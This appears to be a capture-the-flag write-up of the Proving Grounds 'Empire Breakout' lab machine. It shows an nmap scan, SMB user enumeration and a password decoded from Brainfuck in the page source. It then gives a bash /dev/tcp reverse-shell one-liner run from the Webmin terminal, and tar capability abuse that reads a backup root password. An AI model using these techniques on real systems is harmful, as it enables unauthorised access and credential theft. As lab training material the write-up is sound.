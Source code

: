 ```yaml
---
layout: default
title: Empire Breakout
parent: Proving Grounds Play
nav_order: 13
---
```


# Scanning

---

```bash

┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/empire-breakout]
└─$ sudo nmap -Pn -p- -sC -sV -T4 --open 192.168.226.238
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-06 22:04 EST
Nmap scan report for 192.168.226.238
Host is up (0.062s latency).
Not shown: 65527 closed tcp ports (reset), 3 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE     VERSION
80/tcp    open  http        Apache httpd 2.4.51 ((Debian))
|_http-server-header: Apache/2.4.51 (Debian)
|_http-title: Apache2 Debian Default Page: It works
139/tcp   open  netbios-ssn Samba smbd 4.6.2
445/tcp   open  netbios-ssn Samba smbd 4.6.2
10000/tcp open  http        MiniServ 1.981 (Webmin httpd)
|_http-server-header: MiniServ/1.981
|_http-title: 200 &mdash; Document follows
20000/tcp open  http        MiniServ 1.830 (Webmin httpd)
|_http-title: 200 &mdash; Document follows
|_http-server-header: MiniServ/1.830

Host script results:
| smb2-time:
|   date: 2023-11-07T03:05:40
|_  start_date: N/A
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled but not required
|_clock-skew: 17s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 65.04 seconds

```

# Enumeration

---

## 445 | SMB

Enumerate the SMB service with _Enum4linux_ and discover a local user _cyber_

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/empire-breakout]
└─$ enum4linux -U 192.168.226.238
Starting enum4linux v0.9.1 ( http://labs.portcullis.co.uk/application/enum4linux/ ) on Tue Nov  7 21:48:
19 2023

[+] Enumerating users using SID S-1-22-1 and logon username '', password ''

S-1-22-1-1000 Unix User\cyber (Local User)

```

## 80 | HTTP

Running Apache.
Gobuster scan doesn't return anything useful.
Checking the source code we find some text at the bottom of the page:

```bash
!--
don't worry no one will get here, it's safe to share with you my access. Its encrypted :)

++++++++++[>+>+++>+++++++>++++++++++<<<<-]>>++++++++++++++++.++++.>>+++++++++++++++++.----.<++++++++++.-----------.>-----------.++++.<<+.>-.--------.++++++++++++++++++++.<------------.>>---------.<<++++++.++++++.


-->
```

Use dcode.fr to analyze the text and it determines it is encoded with the Brainfuck cipher.

![decode1](../../../assets/images/ctfs/proving_grounds/empire-breakout/decode1.png)

Decoding we get a string that looks like a possible password:

![decode2](../../../assets/images/ctfs/proving_grounds/empire-breakout/decode2.png)

Discovered password: .2uqPEfj3D<P'a-3
{: .warn }

## 20000 | HTTP

We are able to authenticate with the _cyber_ user discovered with SMB enumeration and the password decoded from the Apache web page
source code.

![logon](../../../assets/images/ctfs/proving_grounds/empire-breakout/logon.png)

# Exploitation

## Reverse Shell from Webmin Web Terminal

Once authenticated to the Webmin Miniserv running on port 20000 we find a terminal icon in the Usermin admin panel.

![terminal](../../../assets/images/ctfs/proving_grounds/empire-breakout/terminal.png)

We enter the following bash one-liner in the terminal and get a reverse shell on our netcat listener.

```bash
bash -i >& /dev/tcp/192.168.45.217/80 0>&1
```

![bash](../../../assets/images/ctfs/proving_grounds/empire-breakout/bash.png)

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/empire-breakout]
└─$ netcat -nlvp 80
listening on [any] 80 ...
connect to [192.168.45.217] from (UNKNOWN) [192.168.226.238] 51512
bash: cannot set terminal process group (6028): Inappropriate ioctl for device
bash: no job control in this shell
cyber@breakout:~$ id
id
uid=1000(cyber) gid=1000(cyber) groups=1000(cyber),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev)
cyber@breakout:~$

```

---

# Post-Exploitation

---

## Check for Extended Capabilities

```bash
cyber@breakout:~$ getcap -r / 2>/dev/null
/home/cyber/tar cap_dac_read_search=ep
/usr/bin/ping cap_net_raw=ep

```

_Tar_ has cap_dac_read_search capabilities.
This extended capability allows us to read access to anything.
This could be used to read restricted files such as /etc/shadow in order to display password hashes.

When running _linpeas_ we see there is a _/var/backups/.old_pass.bak_ that we can try to read with the _Tar_ binary.

![backup](../../../assets/images/ctfs/proving_grounds/empire-breakout/backup.png)

```bash
cyber@breakout:~$ ./tar -cvf old_pass /var/backups/.old_pass.bak
./tar: Removing leading `/' from member names
/var/backups/.old_pass.bak
cyber@breakout:~$ ./tar -xvf old_pass
var/backups/.old_pass.bak
cyber@breakout:~$ cat var/backups/.old_pass.bak
Ts&4&YurgtRX(=~h
```

Root password discovered: Ts&4&YurgtRX(=~h
{: .warn }
